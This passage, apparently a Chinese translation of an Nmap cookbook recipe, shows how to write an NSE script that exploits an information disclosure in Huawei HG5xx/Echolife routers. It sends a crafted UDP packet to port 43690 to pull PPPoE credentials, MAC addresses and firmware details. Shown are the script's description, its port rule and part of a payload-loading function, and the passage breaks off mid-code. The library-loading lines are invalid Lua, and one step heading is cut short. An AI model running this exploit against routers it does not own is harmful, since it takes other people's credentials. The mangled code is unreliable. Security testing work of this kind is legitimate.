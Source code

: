 # 使用 NSE 套接字发送 UDP 有效负载

Nmap 脚本引擎通过提供与**Nsock**的接口，为处理网络 I/O 操作提供了一个强大的库。Nsock 是 Nmap 优化的并行套接字库，它的灵活性允许开发人员处理原始数据包，并决定是否使用阻塞或非阻塞网络 I/O 操作。

此方法将完成编写 NSE 脚本的过程，该脚本从文件中读取有效负载并发送 UDP 数据包，以利用华为 HG5xx 路由器中的漏洞进行攻击。

## 怎么做。。。

华为 HG5xx 路由器在接收到 UDP 端口 43690 的特殊数据包时会泄露敏感信息。这个漏洞引起了我的注意，因为这是一个非常流行的设备，可以远程工作，并获取有趣的信息，如 PPPoE 凭据、MAC 地址和确切的软件/固件版本。让我们编写一个脚本来利用这些设备：

1.  首先，创建文件`huawei-hg5xx-udpinfo.nse`并定义信息标签：

    ```
    description=[[
    Tries to obtain the PPPoE credentials, MAC address, firmware version and IP information of the aDSL modemsHuawei Echolife 520, 520b, 530 and possibly others by exploiting an information disclosure vulnerability via UDP.

    The script works by sending a crafted UDP packet to port 43690 and then parsing the response that containsthe configuration values. This exploit has been reported to be blocked in some ISPs, in those cases the exploit seems to work fine in local networks.
    Vulnerability discovered by Pedro Joaquin. No CVE assigned.

    References:
    * http://www.hakim.ws/huawei/HG520_udpinfo.tar.gz
    * http://websec.ca/advisories/view/Huawei-HG520c-3.10.18.x-information-disclosure
    ]]
    ```

2.  加载所需的库（Nmap 6.x 格式）：

    ```
    local "stdnse" = require "stdnse"
    local "io" = require "io"
    local "shortport" = require "shortport"
    ```

3.  定义执行规则：

    ```
    portrule = shortport.portnumber(43690, "udp", {"open", "open|filtered","filtered"})
    ```

4.  创建一个函数以从文件

    ```
    load_udp_payload = function()
      local payload_l = nmap.fetchfile(PAYLOAD_LOCATION)
      if (not(payload_l)) then
        stdnse.print_debug(1, "%s:Couldn't locate payload %s", SCRIPT_NAME, PAYLOAD_LOCATION)
        return
      end
      local payload_h = io.open(payload_l, "rb")
      local payload = payload_h:read("*a")
      if (not(payload)) then
        stdnse.print_debug(1, "%s:Couldn't load payload %s", SCRIPT_NAME, payload_l)
        if nmap.verbosity()>=2 then
          return "[Error] Couldn't load payload"
        end
        return
      end
